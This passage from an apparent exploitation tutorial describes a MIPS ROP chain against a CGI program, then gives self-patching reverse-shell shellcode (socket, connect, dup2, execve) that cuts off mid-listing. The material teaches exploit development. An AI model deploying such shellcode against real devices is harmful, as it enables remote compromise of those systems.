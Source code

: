 This example is as simple as it gets. Store 0xC in `$a2` and write that to 0x50 on the stack. Ideally the place holder bytes for the first syscall will be there and overwritten with an actual syscall. The ROP chain will continue at this point loading the small value into $a0, calling sleep, finding the shellcode, and jumping to it. This is a rather difficult chain to write and you might not find all the gadgets in libuClibc, I know I didn't. Don't be afraid to look in every library loaded by the CGI file. The full source for my shellcode and Python file are posted below, but before you look at it try to write your own solution. There are a few gotchas along the way, but you can always check the solution below for tips if you get stuck.


# Solution Shellcode
```
.globl main
.text

main:
	# Two instructions of padding to support the ROP chain.
	addiu $zero, $ra, -258
	addiu $zero, $ra, -258

	# This is where the ROP will actually land.
	addiu $s5, $t9, -0x3121		# Store $t9 - 0x3131 for later use.
	slti $s7, $s5, -258		# Store guaranteed 0 in $s7
	addiu $s4, $s7, 0x248C		# $s4 = 0x214C. Syscall instruction and xor constant
	addiu $s6, $s7, 0x3131

	# Fixup all syscalls in the shellcode. Offsets discovered using label math.
	# Minus 8 accounts for the two NOP instructions that are jumped passed
	# by the ROP chain.
	sw $s4, %lo(socket_syscall - main + 0x3121 - 8)($s5)
	sw $s4, %lo(connect_syscall - main + 0x3121 - 8)($s5)
	sw $s4, %lo(dup_stdout_syscall - main + 0x3121 - 8)($s5)
	sw $s4, %lo(dup2_stdin_syscall - main + 0x3121 - 8)($s5)
	sw $s4, %lo(dup2_stdout_syscall - main + 0x3121 - 8)($s5)
	sw $s4, %lo(dup2_stderr_syscall - main + 0x3121 - 8)($s5)
	sw $s4, %lo(execve_syscall - main + 0x3121 - 8)($s5)

	# Call cacheflush to flush syscall fix-up to main memory.
	# cacheflush(SHELLCODE_ADDR, SHELLCODE_LENGTH, BCACHE);
	addiu $a0, $s5, 0x3121
	xori $a1, $s4, 0x248C ^ (execve_syscall - main + 4)
	xori $a2, $s4, 0x248F
	xori $v0, $s4, 0x34BF
	addiu $zero, $ra, -258
	addiu $zero, $ra, -258
	addiu $zero, $ra, -258
cacheflush_syscall:
	.byte 0xFE, 0xFE, 0xFE, 0xFE

	# socket_descriptor = socket(2, 2, 0);
	xori $a0, $s6, 0x3133
	xori $a1, $s6, 0x3133
	xori $a2, $s6, 0x3131
	xori $v0, $s6, 0x2166
socket_syscall:
	.byte 0xFE, 0xFE, 0xFE, 0xFE
	addiu $fp, $v0, -0x2121

	# connect(socket_descriptor, sockaddr_in, 16);
	addiu $a0, $fp, 0x2121
	xori $s3, $s6, 0x3133
	sw $s3, -300($sp)
	addiu $s3, $s7,  0x8080
```
